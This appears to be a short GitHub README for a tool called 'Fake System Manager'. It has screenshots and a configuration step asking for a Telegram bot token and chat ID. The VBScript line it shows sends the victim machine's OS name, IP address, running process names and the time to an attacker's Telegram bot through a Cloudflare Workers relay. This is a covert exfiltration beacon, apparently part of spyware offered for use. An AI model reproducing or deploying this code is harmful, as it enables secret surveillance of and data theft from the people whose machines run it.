 # FSM
Fake System Manager
## Image
<img width="1919" height="1019" alt="image" src="https://github.com/user-attachments/assets/5d06101d-e1f9-422e-8e38-708ccefd61f3" />
<img width="497" height="1000" alt="image" src="https://github.com/user-attachments/assets/9831bab9-8dcc-4610-a269-67a418a01dbc" />
## Change
<pre>Token Bot Telegram & Chat ID</pre>
```VBScript
http.Open "GET", "https://telegram.mrsaad.workers.dev/bot{TOKEN}/sendMessage?chat_id={ID}&text=" & os.Caption & " - " & ip.IPAddress(0) & " : " & objProcess.Name & " - " & Time & " - " & Date, False
```
